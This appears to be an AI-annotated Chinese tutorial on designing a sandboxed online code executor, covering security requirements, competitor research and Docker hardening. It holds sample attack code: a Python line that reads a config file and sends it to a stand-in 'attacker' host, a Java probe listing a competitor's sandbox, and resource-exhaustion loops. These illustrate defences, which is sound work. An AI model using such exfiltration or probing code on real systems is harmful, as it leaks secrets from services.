


# 在线代码执行器实现教程（1 - 需求分析和设计）· 精修版

> **原文**：程序员cq ｜ 2024-07-09 17:39 ｜ 阅读 5.2k
>
> **本文来源**：`docs/images/tu01.png` ~ `tu08.png`（8 张文章截图）的完整转写
>
> **配套代码**：本仓库（[code-executor](https://github.com/ChenChen913/code-executor)）就是按本文的设计落地的实现

---

## 这份文档是什么

它有三层内容，混在一起但用标记区分得很清楚：

| 标记 | 含义 |
|---|---|
| 📖 **原文** | 文章截图里的原始内容，**逐字保留**。包括它不严谨的地方——不擅自改写 |
| 🔧 **精修** | 我（AI）对原文里不成熟、有漏洞或落不了地的设计给出的改进方案 + 理由 |
| 🐳 **通俗版** | 给不熟悉 Docker 的读者的大白话解释。技术细节看不懂时，只看 🐳 的部分也不会掉队 |

**为什么保留原文？** 因为这份教程的价值恰恰在于它的"思路演进"：
作者先看竞品、再定选型、最后抽象设计，这条路径本身是对的。
把它改写成一份完美的设计文档，反而看不出"哪里容易踩坑"了。

**精修部分改了什么？** 主要集中在三件事：

1. **安全需求提了三条，但核心设计里一条都没落实。** 这是原文最大的问题——照它写的做，会做出一个"又一个菜鸟教程"，而原文自己刚刚批评过那一点。
2. **业务流程有正常路径、没有失败路径。** 第 5、6 步一抛异常，容器和临时文件就永久泄漏了。
3. **几个具体的技术选择可以更稳**：大而全的镜像、宿主机临时文件、字符串拼命令、硬编码枚举。

---

# 第 0 章 · 先读这一章：不懂 Docker 也能看懂

## 0.1 一句话说清这个项目做什么

**你发一段代码过来，我在一个"关死了的临时房间"里把它跑一遍，然后把结果还给你。**

就这么简单。剩下的全是工程问题：那个房间怎么搭、怎么关、怎么拆、一次能开几间。

## 0.2 Docker 到底是什么

Docker 常被说成"轻量级虚拟机"，这个说法对理解没帮助。用**样板间**来理解：

| Docker 概念 | 通俗说法 | 说明 |
|---|---|---|
| **镜像**（image） | 样板间图纸 + 家具清单 | 一张只读的模板。里面已经装好了操作系统、Java、Python 这些东西。它静静躺在硬盘上，不占 CPU、不占内存 |
| **容器**（container） | 按图纸当场搭出来的一间房 | 可以住人（跑代码）。同一张图纸能同时搭出 100 间，彼此看不见、互不影响 |
| **宿主机**（host） | 你所在的小区 | 就是跑 Docker 的那台服务器 |
| **Docker 守护进程** | 小区物业管理处 | 执行器不能自己搭房子，只能"向物业申请"。所有操作都走它 |
| `docker exec` | 敲门进去办一件事 | 在一个**已经在运行**的容器里执行一条命令 |
| **tmpfs** | 房间里的白板 | 能写，但一退房就自动擦干净，磁盘上什么都不留 |
| **只读根文件系统** | 墙和家具都焊死了 | 房间自带的系统盘不能写，改不了 `/etc`，装不了后门 |

一次执行的完整生命周期就是：

```
申请一间房（创建容器）→ 住进去（启动）→ 把菜谱抄到白板上（塞代码）
→ 备菜（编译）→ 开火（运行）→ 端出来（取输出）→ 拆房（删容器）
```

## 0.3 一个必须建立的认知：Docker 不是安全边界

**Docker 保证的是"这间房塌了砸不到隔壁"，它不保证"住客不会从窗户爬出去"。**

原文调研菜鸟教程时发现的那件事，本质就是这个：

> 容器隔离做了，但住客一执行 `ls -a /usr/local`，整个小区装了什么工具全看清了；
> 再 `cat Main.java`，自己房间里的文件也读出来了。

容器本身没有失灵——问题是**没人管住客能干什么**。

打个更准确的比方：

- **Docker 是"给每个客人单独开一间房"**（隔离）
- **"权限限制"是"把保险柜锁上、窗户焊死、电话线拔掉"**（加固）

这是两件事，缺一不可。原文的**安全需求里提到了第二件，但核心设计里把它丢了**——
这正是本文精修部分最想补上的洞。

## 0.4 三个真实的惨案

原文的安全需求写得比较抽象，这里翻译成具体场景。这三段分别对应后面要补的三条限制。

### 惨案一：搬砖的人 → 需要**内存限制**

```python
# 用户提交的代码
data = []
while True:
    data.append(bytearray(1024 * 1024))   # 每秒往内存里搬 1MB，不停
```

**翻译**：有人在你家客厅不停地往里搬砖，一秒钟一吨，直到把房子撑爆。

**后果**：不只是他跑不动——你家里**其他客人**（正常请求）也全被挤出去了。
原文说的"服务器宕机""其它正常请求出现延迟和资源短缺"，就是这个过程。

**对策**：内存限制。到点直接把人请出去，而不是等整栋楼塌。

### 惨案二：占着收银台不结账的人 → 需要**时间限制 + 并发限制**

```python
import time
time.sleep(10000)   # 睡将近 3 小时
```

**翻译**：雇 10 万个人，每人占一个收银台，什么都不买，就站着。真顾客排不上队。

**注意**：这种人**不占 CPU、不占内存**，他就是"占着"。所以光有内存限制挡不住他。
必须同时有：
- **时间限制**——掐秒表，到点赶人
- **并发限制**——限制"同时能进几个人"，而不是"总共来了多少人"

原文把这两个混在"时间限制"一条里说了，实际实现时是两个独立的机制。

### 惨案三：翻你抽屉的保洁 → 需要**权限限制 + 网络限制**

```python
import os, urllib.request
files = os.popen("ls /usr/local").read()          # 看小区户型图
secret = open("/app/config.yml").read()           # 翻保险柜
urllib.request.urlopen("http://attacker/" + secret)  # 贴到公告栏上
```

**翻译**：请了个保洁来打扫，结果他把你家保险柜翻了个遍，
还把抽屉里的东西拍照贴到小区公告栏上。

**对策**：这里必须**两条一起上**：

- **权限限制**：不让他翻抽屉（只读文件系统 + 丢特权 + 非 root）
- **网络限制**：拔掉电话线

⚠️ **原文的一个漏洞**：原文明确描述了"如果攻击者又通过网络把我们服务器的一些文件上传到用户那里"
这个后果，也把"权限限制"列进了需求——**但通篇没有把"网络限制"列为一条需求**。

这两条的关系是：**只要拔了网线，惨案三的危害就从"数据泄露"降级成"他自己看看"**。
一句 `--network none` 就能做到。漏掉它，是原文安全分析里最贵的一个疏忽。

## 0.5 一次请求从头到尾发生了什么

用**租一间临时厨房做菜**来理解：

| # | 系统在做什么 | 相当于 |
|---|---|---|
| 1 | 收到你发的代码 | 你把菜谱递过来 |
| 2 | 校验语言、代码长度 | 检查菜谱是不是用我认识的文字写的、有多厚 |
| 3 | 按镜像"搭"一间全新厨房 | 照着样板间图纸当场搭一间房 |
| 4 | 给这间厨房上锁 | 拔电话线、焊死窗户、收走刀具、煤气罐定量、灶台限功率（见下表） |
| 5 | 把菜谱抄到白板上 | 代码用数据流直接写进容器，**宿主机磁盘上从头到尾没有你的代码** |
| 6 | 如果需要备菜就先备菜 | 编译。**备菜失败就直接告诉你，不会再往下做**（省时间，错误也更清楚） |
| 7 | 开火做菜，同时掐秒表 | 运行。秒表一到，**连房带灶一起拆** |
| 8 | 把菜端出来 | 返回 stdout / stderr / 退出码 |
| 9 | 拆掉整间厨房 | 删容器。**无论上面哪一步出错，最后一定走到这里** |

第 4 步里"上锁"的具体内容：

| 锁 | 对应命令 | 挡住什么 |
|---|---|---|
| 拔电话线 | `--network none` | 外传数据、扫描内网、挖矿、当代理 |
| 焊死窗户和家具 | `--read-only` | 改配置、装后门、动系统文件 |
| 只留一块白板 | `--tmpfs /workspace` | 唯一可写的地方，退房即消失 |
| 收走所有钥匙 | `--cap-drop ALL` | 一切需要特权的操作 |
| 不让他变成管理员 | `no-new-privileges` | 用 setuid 二进制提权 |
| 煤气罐定量 | `--memory` | 惨案一 |
| 灶台限功率 | `--cpus 1` | 挖矿 |
| 限制同时几个人进 | `--pids-limit` | fork 炸弹 |
| 掐秒表 | 应用层超时 + kill | 惨案二 |

---

# 第 1 章 · 需求背景

## 📖 原文

> 相信很多人都曾经遇到过这样的情况：在处理一些简单的代码时，我们希望立即获取这段代码的执行结果，
> 却又不想打开集成开发环境（IDE）来运行。甚至有时候我们没有安装某些编程语言的编译器，
> 还需要单独下载一个编译器，再执行代码。这无形中浪费了大量的时间。
> 因此，我们需要一款工具，能够在线执行我们常用的代码，轻松地运行各种常见的编程语言。
>
> 而我们这次要做的不仅是一个在线代码执行器，更要做一个 **starter**，
> 让其他服务可以很轻松的接入我们提供的在线代码执行器。

## 🔧 精修

这段需求背景写得很好，特别是最后一句——**"不仅是一个执行器，更要做一个 starter"**。

这句话是整个项目里最有价值的一句，因为它决定了后面所有设计的评价标准：

> 一个给自己用的玩具，只要"能跑"就行；
> 一个给别人接入的 starter，必须回答"**别人凭什么敢把用户代码交给它**"。

可惜原文后面并没有沿着这句话展开。一个 starter 至少还要回答：

| starter 必须回答的问题 | 原文提到了吗 |
|---|---|
| 谁在调用我？怎么鉴权？ | ❌ |
| 每个调用方每天能用多少？ | ❌ |
| 我忙不过来的时候怎么办？ | ❌ |
| 出问题了我怎么排查？（哪次执行、什么语言、多久、为什么失败） | ❌ |
| 你的接口协议长什么样？错误怎么表达？ | 部分（只有"返回结果或错误信息"） |

这些不是"以后再补"的东西。**starter 的对外契约一旦有人接了，改起来就要通知所有调用方**——
所以它必须比功能更早定下来。精修版在[第 7 章](#第-7-章--接口契约新增)给出了契约，
在[第 9 章](#第-9-章--实施路线图)把剩下的排进了路线图。

---

# 第 2 章 · 需求分析

## 2.1 功能需求

### 📖 原文

> 根据上面的需求背景，我们可以抽出两个最核心的功能：
>
> 1. 支持大多数常用代码的运行能力。
> 2. 返回运行结果或者相关错误信息。
>
> 也就是说，我们的服务端需要提供一个大而全的环境可以对各种常用的编程语言都能进行编译运行并返回对应的运行结果。
>
> 至于要支持哪些语言，可以根据 TIOBE 排行榜来确定要支持的语言（官网：<https://www.tiobe.com/tiobe-index/>）：

因此原文这个在线代码执行器要支持这些语言：

- Python
- C
- C++
- Java
- JavaScript
- Go
- TypeScript

### 🔧 精修 1：语言清单要按"调用方"裁剪，不是按排行榜

TIOBE 是个合理的**起点**，但它回答的是"世界上哪些语言用得多"，
而这个项目要回答的是"**我的调用方需要跑哪些语言**"。

两者经常不一致。比如你在做一个编程教学平台，学生只学 Python 和 C，
那把 Go、Rust、TypeScript 都装进镜像，纯粹是在给自己增加攻击面和维护成本。

**建议的第一版清单：只做两门，而且刻意选在"两端"。**

| 语言 | 类型 | 为什么选它 |
|---|---|---|
| **Java** | 编译型 | 有"先编译再运行"两个阶段，逼你把流程做对 |
| **Python** | 解释型 | 没有编译阶段，逼你把抽象做成"编译命令可以为空" |

只要这两种都能跑通，**抽象就是对的**——之后加任何语言都只是改配置。
反过来，一上来就把 7 门语言全铺开，你会在调 Golang 的编译参数时，
还没意识到自己的流程抽象是错的。

> 本仓库的实际配置是 Java + Python + JavaScript 三种。
> JavaScript 是白送的（`node main.js`，和 Python 一样是解释型），
> 加它是为了证明"改配置就能加语言"，而不是为了凑数。

### 🔧 精修 2：TypeScript 不是"又一个 JavaScript"

原文把 TypeScript 和 JavaScript 并列在清单里。但它们的执行方式完全不同：

| | 怎么跑 | 需要编译步骤吗 |
|---|---|---|
| JavaScript | `node main.js` | 不需要 |
| TypeScript | 必须先 `tsc` 编译成 JS，或用 `tsx`/`ts-node` 这类运行时 | **需要** |

两个后果：

1. **TypeScript 的编译超时必须单独放宽**。`tsc` 在冷启动、无缓存的情况下编译一个稍大的文件，
   几秒钟很正常，用和 Python 一样的 5 秒超时会大量误杀。
2. **TypeScript 的错误信息会分两段**：类型错误（编译期）和运行错误（运行期）。
   这正是前面说的"编译错误和运行错误必须分开返回"的真实用例——
   如果你把两种错误混在一个 `error` 字段里，TypeScript 用户会疯。

### 🔧 精修 3：把"大而全"改成"够用就好"

> 原文："我们的服务端需要提供一个大而全的环境"

这个想法很自然，但它是**这个项目最容易走错的一步**，因为它同时牺牲了三样东西：

| 代价 | 说明 |
|---|---|
| **体积** | 塞满语言工具链的镜像轻松 5~10 GB。每次部署、每次扩容、每台新机器都要拉这个镜像 |
| **攻击面** | 镜像里**每一个工具都是潜在入口**。而且很多工具本身就是攻击工具——`curl`/`wget` 能外传数据，`gcc` 能编译出任意二进制 |
| **启动速度** | 镜像越大，容器冷启动越慢。而冷启动是这个项目最大的性能瓶颈（见[第 4 章](#第-4-章--技术选型)） |

"大而全"的真正替代方案是"**分层 + 按需**"，细节在[第 4 章](#第-4-章--技术选型)。

## 2.2 安全需求

### 📖 原文

> 首先我们要保证用户执行的代码不能占用过多内存，如果有人在代码里写了个死循环不断创建新的对象
> 大量占用我们服务器的内存资源，或者有人在代码里写了一个睡眠一万年的代码，并且发送了很多请求，
> 这些操作无疑都会大量占用我们服务器的线程资源和内存资源，使得其它正常的请求会出现各种延迟
> 和资源短缺的问题，甚至导致我们的服务器宕机。
>
> 其次就是权限问题，如果有人恶意执行了一些读取文件的命令，例如 `ls` 这类查看文件的命令，
> 然后获取到我们服务器的另外一些服务信息，甚至可能直接读取到我们项目数据库的密码，
> 这对我们的服务而言是灾难性的打击，如果攻击者又通过网络把我们服务器的一些文件上传到用户那里，
> 那我们的服务就等于完全暴露给攻击者了。
>
> 总结一下，我们可以把这些问题分为下面三点：
>
> 1. 内存限制
> 2. 时间限制
> 3. 权限限制

### 🔧 精修：从 3 条补到 5 条

原文的分析过程是对的，但**结论漏了两条**。补全后的清单：

| # | 需求 | 原文 | 挡住的攻击 | 对应机制 |
|---|---|---|---|---|
| 1 | **内存限制** | ✅ | 死循环吃内存 | `--memory` + `--memory-swap` |
| 2 | **时间限制** | ✅ | 睡一万年 / 死循环 | 应用层超时 + `kill` |
| 3 | **权限限制** | ✅ | 读文件、读数据库密码 | 非 root + `--read-only` + `--cap-drop ALL` |
| 4 | **网络限制** | ❌ **新增** | 外传数据、SSRF 扫内网、挖矿、当代理 | `--network none` |
| 5 | **输出限制** | ❌ **新增** | 打爆执行器自己的内存 | stdout/stderr 字节上限 + 截断标记 |

**为什么要补第 4 条（网络限制）？**

原文其实已经写出了这个威胁——"如果攻击者又通过网络把我们服务器的一些文件上传到用户那里"——
但把它归到了"权限问题"里，没有单独立成一条需求。

这个归类错误会造成实际后果：**开发时只做权限控制、忘了断网**。
而断网恰恰是**性价比最高的一条**——一行 `--network none`，
就能把"数据泄露"降级成"攻击者自己看到了但拿不走"。

**为什么要补第 5 条（输出限制）？**

因为原文的所有安全需求，防的都是"用户代码伤害宿主机"。
但有一类攻击防不住：**用户代码伤害执行器本身**。

```python
while True:
    print("x" * 1000)
```

这段代码：不吃内存（容器内存稳稳的）、不超时（一直在正常输出）、不越权（就是打印）。
但它每秒能产生几百 MB 的输出，**这些输出全部堆进执行器的内存里**——
容器限制得再严也没用，被打爆的是执行器进程自己。

所以输出上限不是"优化"，是**必需的安全需求**。

### 🐳 通俗版：为什么是这 5 条，不是 3 条

想象你开了一家"代客做菜"的店，客人把菜谱给你，你做好了还给他。你要防什么？

1. **防他把厨房撑爆** → 煤气罐定量（内存限制）
2. **防他一道菜做十年** → 掐秒表，到点赶人（时间限制）
3. **防他翻你的抽屉** → 保险柜上锁、刀具收走（权限限制）
4. **防他把你的东西传出去** → **拔电话线**（网络限制）← 原文漏了
5. **防他用"一直报菜名"把你累死** → **一次只让他说这么多**（输出限制）← 原文漏了

第 4 条是最划算的：拔一根电话线，就能让"偷到了"变成"只是看到了"。
第 5 条最容易被忽略，因为它看起来"不危险"——恰恰相反，它是唯一能直接打死你的一条。

---

# 第 3 章 · 功能调研

## 3.1 市场上已有的网站

### 📖 原文

> **1、菜鸟教程**
>
> 类似于星球里的 oj 项目，用到容器相关的技术，保证进程的隔离，
> 但是**没做安全校验，实测可以写入文件、读取文件和执行命令**：

原文截图里的验证代码（Java）：

```java
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.nio.charset.StandardCharsets;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.nio.file.StandardOpenOption;

public class Test {
    public static void main(String[] args) throws InterruptedException {
        //path path = Paths.get("test");
        byte[] bytes = "aaa".getBytes(StandardCharsets.UTF_8);
        try {
            Files.write(path, bytes, StandardOpenOption.CREATE, StandardOpenOption.WRITE);
            System.out.println(Files.readAllLines(path));
        } catch (IOException e) {
            System.out.println(e.getMessage());
            throw new RuntimeException(e);
        }*/
        try {
            // 关键：执行了 shell 命令
            Process process = Runtime.getRuntime().exec("ls -a /usr/local");

            BufferedReader reader = new BufferedReader(new InputStreamReader(p...
            // （截图在此截断）

            StringBuilder output = new StringBuilder();
            String line;
            while ((line = reader.readLine()) != null) {
                output.append(line).append("\n");
            }

            int exitCode = process.waitFor();

            if (exitCode == 0) {
                System.out.println(output);
```

**运行结果**：容器内 `/usr/local` 被完整列出，暴露出这个环境装了哪些工具链：

```
.               clojure-1.10.1   gcc-9.2.0     man            python-3.8.1   share
..              composer-2.8.9   ghc-8.8.1     mono-6.6.0.161 ruby-2.7.0     src
bash-5.0        dotnet-sdk       gnucobol-2.2  nasm-2.14.02   rust-1.40.0    swift-5.2.3
bin             elixir-1.9.4     go-1.13.5     node-12.14.0   sbcl-2.0.0
clojure         erlang-22.2      groovy-3.0.3  ocaml-4.09.0   sbin
                etc              include       octave-5.1.0   scala-2.13.2
                fbc-1.07.1       kotlin-1.3.70 openjdk-11.0.6
                gcc-7.4.0        lib           perl
                gcc-8.3.0        lua-5.3.5     php-7.4.1
                gcc              make          python-2.7.17
```

> 注：部分目录名因截图分辨率模糊，按可辨识内容整理。

原文继续验证：**菜鸟教程可以将原本的类名改为 Main**，
把 `Runtime.getRuntime().exec("ls -a /usr/local")` 换成 `"cat Main.java"` 后，
容器里的源码文件被完整打印了出来——**证明容器内文件可读**。

以及：**菜鸟教程的 JavaScript 只能嵌入在 HTML 中运行，且运行结果在浏览器的控制台中**，
服务端并没有真正的 JS 执行环境。

原文补充的菜鸟教程实现信息：

> 1）**开发环境**：所有的编译工具都配置在 `/usr/local` 中。
> 2）**运行方式**：运行脚本都写在一个名为 `run` 的可执行文件中，再利用程序执行该脚本。
> 3）**运行环境**：类似于 docker 的容器，每次请求都是创建新的容器。

> **2、glot**
>
> GitHub 地址：<https://github.com/glotcode/glot>
> 和菜鸟教程类似，但是不能将类名自动转换为 `Main`。

> **3、码曰**
>
> <https://www.dotcpp.com/run/>
> **有权限控制，不允许读写文件，超时控制，据推测使用的是 `JavaSecurityManager`。**

原文截图中码曰的报错：

```
Exception in thread "main" java.security.AccessControlException:
access denied ("java.io.FilePermission" "/usr/local" "execute")
```

## 3.2 开源项目

### 📖 原文

> **1）RemoteCodeCompiler**
> 117 star，最近一次更新是 7 月前。
> <https://github.com/zakariamaaraki/RemoteCodeCompiler>
>
> 支持语言：Java、Kotlin、Scala、C、C++、C#、Golang、Python、Ruby、Rust、Haskell
>
> 基础原理：创建出不同编程语言的镜像，再通过前端传入的编程语言创建容器，
> 在创建出的容器中运行代码获取返回结果。
> 操作 docker：直接使用命令行执行 docker 操作。

> **2）jitcompiler**
> 58 star，最近一次更新在去年。
> <https://github.com/rajkumardusad/jitcompiler>
> 实现了 40+ 种语言。
> 创建了一个多种语言的镜像，随后根据镜像启动一个容器，在该容器中运行服务从而执行各类代码。

> **3）GitHub - bhargavgolla/Online-Compiler**
> 100 star，最近一次更新 7 年前，php。❌

### 🔧 精修：调研的三处缺口

**缺口一：漏了这个领域最主流的开源实现 Judge0。**

<https://github.com/judge0/judge0> 是在线判题/代码执行这个方向事实上的标准实现，
被大量教学平台使用。不研究它，等于做竞品分析时跳过了市场第一名。它值得单独看的地方：

- 它怎么组织多语言镜像（每语言一个，还是分层）
- 它怎么暴露接口（同步 / 异步 / 批量）
- 它怎么处理"同样的代码缓存编译结果"（这是它性能好的主要原因之一）

**缺口二：调研表少了一列——"它怎么清理资源"。**

原文对每个项目的调研集中在"支持哪些语言""怎么隔离"，
但没有一家写了"容器什么时候删、删失败怎么办"。

而这一列恰恰是**这类服务最容易在生产上出事的地方**：
一次异常的 `kill -9`，就能在宿主机上留下几十个各占 128MB 的僵尸容器，
一晚上把内存吃光。

**缺口三：只调研了"用 Docker 怎么隔离"，没调研"比 Docker 更强的隔离"。**

原文的结论是"大家都用容器隔离，且都不做权限控制"。
但真正的行业前沿是**在容器之上再套一层**：

| 方案 | 隔离层级 | 代价 |
|---|---|---|
| 普通 Docker 容器 | 进程级（共享宿主内核） | 有内核漏洞逃逸的可能 |
| **gVisor** | 用户态内核，拦截系统调用 | 性能损耗，兼容性偶有问题 |
| **Kata Containers** | 轻量虚拟机，独立内核 | 启动更慢，资源占用更高 |
| **独立物理机** | 物理隔离 | 最贵，但最安全 |

对 v1 来说 Docker 够用，**但要在文档里明确写下"我们知道容器不是最强隔离"**，
并把它排进路线图——这就是"我知道我的方案在哪一层"的表现。

## 3.3 调研总结

### 📖 原文

> 当前市场上已有在线代码执行器，大多都是使用容器与宿主机隔离，避免对宿主机造成不良影响，
> **且使用容器执行代码时，不对应用的执行权限做处理，仅仅是对内存或者运行时间做了限制。**

### 🔧 精修：这个结论应该怎么读

这句话是整份调研里**信息量最大的一句**，但原文只把它当成一个"现状描述"就过去了。
它其实同时说明了两件事：

**第一，这是一个被普遍忽略的地方——所以它是你的差异化点。**

如果所有竞品都不做权限控制，那你做了，你的服务就有一个别人没有的卖点。
原文把"别人都不做"当成了"这是常态"，而不是"这是机会"。

**第二，这是一个大家都踩过的坑——所以它比看起来难。**

为什么大家都不做？不是没想到，通常是因为：

- 权限控制和"能用"是冲突的。很多语言的正常使用（写临时文件、装依赖、开子进程）
  都依赖写权限，一刀切禁掉之后用户会立刻反馈"我的代码跑不了"
- 权限控制的报错很难懂。码曰那个 `AccessControlException` 就是典型——
  用户看到的是 `access denied ("java.io.FilePermission" ...)`，
  完全不知道该怎么办

**这就是为什么第 5 章的安全设计不能只写"要限制权限"，而必须写成一张
"每一项限制到底开在哪、为什么、会不会误伤"的清单。**

---

# 第 4 章 · 技术选型

## 📖 原文

> - SpringBoot
> - docker 容器隔离运行代码
> - docker-java 调用本地 docker 的功能
>
> 我们可以构建一个尽量大而全的镜像，可以包含大部分编程语言，
> 让我们尽量用一个镜像执行所有类型的编程语言获得执行结果。

## 🔧 精修：镜像策略的三方权衡

原文的选型里，前三条（SpringBoot / Docker / docker-java）都没问题，是同类项目的标准组合。
**唯一值得重做的是最后一句："一个尽量大而全的镜像"。**

调研里其实已经出现了两种相反的方案，原文没有把它们摆在一起比较：

| 方案 | 代表 | 优点 | 代价 |
|---|---|---|---|
| **单一大镜像** | 原文选型、jitcompiler | 简单；一次拉取；加语言只改配置 | 体积 5~10GB；攻击面 = 所有工具链的并集；冷启动慢 |
| **每语言一个镜像** | RemoteCodeCompiler | 体积小；攻击面按需；启动快 | 镜像多、要管理版本矩阵；语言间共享基础层要做对 |
| **一镜像 + 常驻服务** | jitcompiler | 启动最快（服务常驻） | ⚠️ 常驻进程本身就是隔离漏洞，且服务本身可被攻击 |

### 我的建议：不要二选一，要分层

真正的问题不是"一个镜像还是多个镜像"，而是"**镜像里的东西能不能按需组合**"。
Docker 的镜像分层天生就是干这个的：

```
┌─────────────────────────────────────────┐
│ 语言层：python3 + nodejs                 │  ← 不需要的语言，这一层根本不存在
├─────────────────────────────────────────┤
│ 语言层：openjdk-17                       │
├─────────────────────────────────────────┤
│ 基础层：alpine + 非 root 用户 + 通用加固  │  ← 所有镜像共享
└─────────────────────────────────────────┘
```

这样做的好处：

- **只想跑 Java 的部署**：`docker build --target runner-base`，镜像里连 Python 都没有
- **要全量**：默认目标就是全量，和原文的目标一致
- **加一门语言**：加一个 stage，前面的层全部命中缓存

本仓库的 [Dockerfile](../Dockerfile) 就是按这个思路写的，两个构建目标：

```bash
docker build --target runner-base     -t code-executor-runner-jvm:1 .   # 只有 JVM
docker build --target runner-polyglot -t code-executor-runner:1    .    # 全量（默认）
```

## 🐳 通俗版：镜像大一点，到底碍着谁了？

用"样板间"来算这笔账：

**样板间里家具越多，每开一间房就越慢。**

- 客人只需要一张床，你却在每间房里都摆了一整套健身房器材
- 开房时要**把整套器材都搬进去**（这就是镜像拉取 + 容器冷启动）
- 客人少的时候没感觉；客人一多，你就发现时间全花在"搬器材"上了

**更麻烦的是安全**：样板间里的每一件家具，都可能被人拿来当武器。

- 你放了一把菜刀（`gcc`，能编译出任意程序）
- 你放了一部电话（`curl`，能把东西传出去）
- 你放了一整套工具箱（几十个语言运行时，每个都可能有已知漏洞）

**"分层"就是把家具分成两批**：

- **第一批（基础层）**：床、桌椅、门锁——谁都要用的
- **第二批（语言层）**：健身房器材、厨房设备——**只有需要的房间才搬进去**

这样，只做 Java 判题的部署，房间里就没有那部电话（`curl`）、没有那把菜刀（`gcc`），
攻击面一下子就小了一大截。

---

# 第 5 章 · 核心设计

## 5.1 语言抽象：3 个字段不够，要 7 个

### 📖 原文

> 在设计之前，我们可以考虑一下，不同语言的执行都有哪些不同，也就是我们要把什么抽象出来？
>
> **1）编译的命令**
> 不同编程语言不同，且有的编程语言并不用执行编译。
>
> **2）运行的命令**
> 某些语言是可以直接以可执行文件执行，例如 c/cpp、go；
> 有些语言不能以可执行文件执行，例如 Java。
>
> **3）内容和文件名的关联**
> 例如 Java 的类名要和文件名一致。
>
> 考虑到这三点，那么其实我们要抽象出来的就是以下三点：
>
> - 编译命令（不用编译的语言可以设置为空）
> - 运行命令
